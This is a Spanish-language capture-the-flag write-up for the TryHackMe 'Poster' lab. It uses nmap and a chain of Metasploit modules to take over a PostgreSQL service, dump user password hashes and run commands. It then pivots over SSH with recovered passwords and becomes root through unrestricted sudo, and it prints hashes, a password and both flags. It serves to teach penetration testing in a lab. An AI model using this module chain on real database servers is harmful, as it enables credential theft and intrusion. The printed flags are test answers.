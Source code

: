 # Poster

## Escaneo de puertos

Ejecutamos un mapeo de los puertos de la máquina víctima con`nmap`para identificar los puertos abiertos que puedan ser explotados.

```
sudo nmap -sV -T4 -p- 10.10.127.180
```

Hay tres puertos abiertos: el 22 de SSH, el 80 de HTTPy el 5432 de postgresql.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image.png)

## Explotación de PostgreSQL

Usamos`msfconsole`para explotar una posible vulnerabilidad en la versión de postgresql existente.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-1.png)

Buscamos`postgresql`en los módulos.

```
search postgresql
```

Usamos el número 22.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-2.png)

Mostramos las opciones disponibles.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-3.png)

Asignamos la IP de la máquina víctima y lo ejecutamos.

```
set rhosts 10.10.127.180
```

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-4.png)

Una vez obtenido los credenciales, usamos el módulo para poder ejecuta comandos.

```
use auxiliary/admin/postgres/postgres_sql
```

Asignamos la contraseña`password`que obtuvimos anteriormente. Tenemos la versión exacta de PostgreSQL que es la 9.5.21.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-5.png)

Ahora, usamos el siguiente módulo para dumpear los hashes ya que tenemos acceso total a la base de datos.

```
use /auxiliary/scanner/postgres/postgres_hashdump
```

Obtenemos todos los hashes de los usuarios de la base de datos.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-6.png)

```
darkstart  md58842b99375db43e9fdf238753623a27d
poster     md578fb805c7412ae597b399844a54cce0a
postgres   md532e12f215ba27cb750c9e093ce4b5127
sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
ti         md57af9ac4c593e9e4f275576e13f935579
tryhackme  md503aab1165001c8f8ccae31a8824efddc
```

Usamos ahora el módulo para la ejecución de comandos arbitrarios. De esta forma abrimos una sesión.

```
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-7.png)

Mostramos el contenido de la carpeta del usuario y el del archivo`credencials.txt`.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-8.png)

## Acceso por SSH

Accedemos al servidor por ssh con las credenciales de`dark`.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-9.png)

Inspeccionamos el directorio de`/var/www/html`.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-10.png)

Encontramos la credenciales de`alison`.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-11.png)

## Escalada de privilegios

Entramos ahora con el usuario`alison`por ssh. La contraseña es`p4ssw0rdS3cur3!#`.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-12.png)

Comprobamos los permisos que tiene.

```
sudo -l
```

Vemos que tiene permisos para ejecutar cualquier comando en el sistema.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-13.png)

Nos ponemos como usuario root y obtenemos la flag de`root.txt`.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-14.png)

```
THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
```

También obtenemos la flag del user.

![](Hacking_Etico/TryHackMe_WriteUps/Poster/images/image-15.png)

```
THM{postgresql_fa1l_conf1gurat1on}
```


